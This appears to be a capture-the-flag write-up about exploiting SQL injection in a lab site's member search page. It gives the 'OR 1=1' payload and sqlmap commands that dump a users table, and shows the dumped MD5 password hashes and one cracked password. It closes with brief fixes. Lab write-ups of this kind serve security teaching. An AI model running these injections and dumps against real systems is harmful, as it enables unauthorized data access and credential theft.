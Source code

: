 #00 : SQL injection via member search text input  

## Method

1. Go to http://192.168.0.179/index.php?page=member

2. Enter 42 OR 1=1 in the search box and submit


Returns:
```
ID: 42 OR 1=1 
First name: Flag
Surname : GetThe
```

3. Open terminal (Powershell), in sqlmap-dev folder run

```
python sqlmap.py --url="http://192.168.0.179/index.php?page=member&id=1&Submit=Submit##" --tables
```

Returns

```Database: Member_Sql_Injection
[1 table]
+---------------------------------------+
| users                                 |
+---------------------------------------+
```
Dump users table:

```
python sqlmap.py --url="http://192.168.0.179/index.php?page=member&id=1&Submit=Submit##" --dump -T users
```

```
Database: Member_Sql_Injection
Table: users
[4 entries]
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+
| user_id | town      | planet | country   | last_name | first_name     | Commentaire
                                          | countersign                      |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+
| 1       | Honolulu  | EARTH  | America   | Obama     | Barack Hussein | Amerca !
                                          | 2b3366bcfd44f540e630d4dc2b9b06d9 |
| 2       | Berlin    | Earth  | Allemagne | Hitler    | Adolf          | Ich spreche kein Deutsch.
                                          | 60e9032c586fb422e2c16dee6286cf10 |
| 3       | Moscou    | Earth  | Russia    | Staline   | Joseph         | ????? ????????????? ?????????                                                 | e083b24a01c483437bcf4a9eea7c1b4d |
| 5       | 42        | 42     | 42        | GetThe    | Flag           | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28 |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+
```


md5 decrypted countersign --> fortytwo


## Fixes
1. Use prepared statements
2. Send form as post request

## Resources
* [md5online](https://www.md5online.org/md5-decrypt.html)

* [sha256 Online](https://emn178.github.io/online-tools/sha256.html)

* [hackers-arise/database-hacking-part-4](https://www.hackers-arise.com/post/2017/04/24/database-hacking-part-4-extracting-data-with-sqlmap)